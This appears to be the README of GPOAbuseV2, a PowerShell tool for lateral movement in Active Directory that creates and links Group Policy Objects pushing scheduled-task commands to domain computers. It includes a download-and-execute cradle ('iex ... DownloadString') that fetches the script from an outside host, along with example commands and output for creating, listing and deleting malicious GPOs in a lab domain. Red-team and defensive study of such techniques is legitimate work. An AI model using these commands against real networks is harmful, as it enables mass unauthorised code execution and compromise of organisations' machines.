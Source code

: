 # GPOAbuseV2
Lateralization in an Active Directory domain using GPO deployment with no GUI and no dependencies. You need to be Domain Admin or have the rights to create GPO.

## Acknowledgment
Many thanks to the tools [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse), [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse) and [PowerGPOAbuse](https://github.com/rootSySdk/PowerGPOAbuse) and their authors for their previous research. GPOAbuseV2 is a combination of these tools.

## Deployment
```powershell
. .\GPOAbuseV2.ps1
Import-Module GPOAbuseV2.ps1
iex (new-object Net.WebClient).DownloadString('http://100.100.100.118:9000/GPOAbuseV2.ps1')
```
## Help
The tool is compatible with Get-Help.
Examples:
```powershell
PS> Get-Help Create
PS> Get-Help List -Full
PS> Get-Help Delete -Examples
```

## Functions
### Create
To create and deploy a GPO in the domain
```
PS> Create -Name "Ping_all_up_computers" -OU "OU=TKNX-Machines,DC=teknex,DC=lab" -Scope "Computers" -Command "ping.exe -n 1 100.100.100.118"

[INFO] GPO 'Ping_all_up_computers' created
[INFO] GPO linked to 'OU=TKNX-Machines,DC=teknex,DC=lab'
[INFO] Created file tree
[INFO] Created Scheduled Task file
[INFO] Created GPT file
[INFO] LDAP modified

---- GPO properly Created ----
  Name              :   Ping_all_up_computers
  GUID              :   6D185B93-2A6C-4F6D-8976-122B87CD68B6
  OU                :   OU=TKNX-Machines,DC=teknex,DC=lab
  Scope             :   Computers
  Command assigned  :   ping.exe -n 1 100.100.100.118
------------------------------
```

### List
To list objects of the domain
```
PS> List All

- Enabled Users are in the following OUs:
     + CN=Users,DC=teknex,DC=lab
     |   Mickey Mouse

     + OU=TKNX-Utilisateurs,DC=teknex,DC=lab
     |   Administrateur
     |   Minnie Mouse

     + OU=TKNX-Machines,DC=teknex,DC=lab
     |   Donald Duck


- Enabled Computers are in the following OUs:
    + OU=TKNX-Machines,DC=teknex,DC=lab
    |   CLI003          (100.100.100.122)
    |   CLI002          (100.100.100.121)
    |   CLI001          (100.100.100.120)

    + OU=Domain Controllers,DC=teknex,DC=lab
    |   DC01            (100.100.100.119)   [DC]


- GPO and where they're linked:
    +   Default Domain Policy
    |   DC=teknex,DC=lab

    +   Ping_all_up_computers
    |   OU=TKNX-Machines,DC=teknex,DC=lab

    +   Default Domain Controllers Policy
    |   OU=Domain Controllers,DC=teknex,DC=lab
```

### Delete
To delete a GPO
```
PS> Delete "Test GPO"

---- Deletion of the GPO ----
  Name   :   Test GPO
  Links  :   DC=teknex,DC=lab
-----------------------------                                                 
Are you sure to delete this GPO ? (Y/N) Y

GPO properly deleted
```

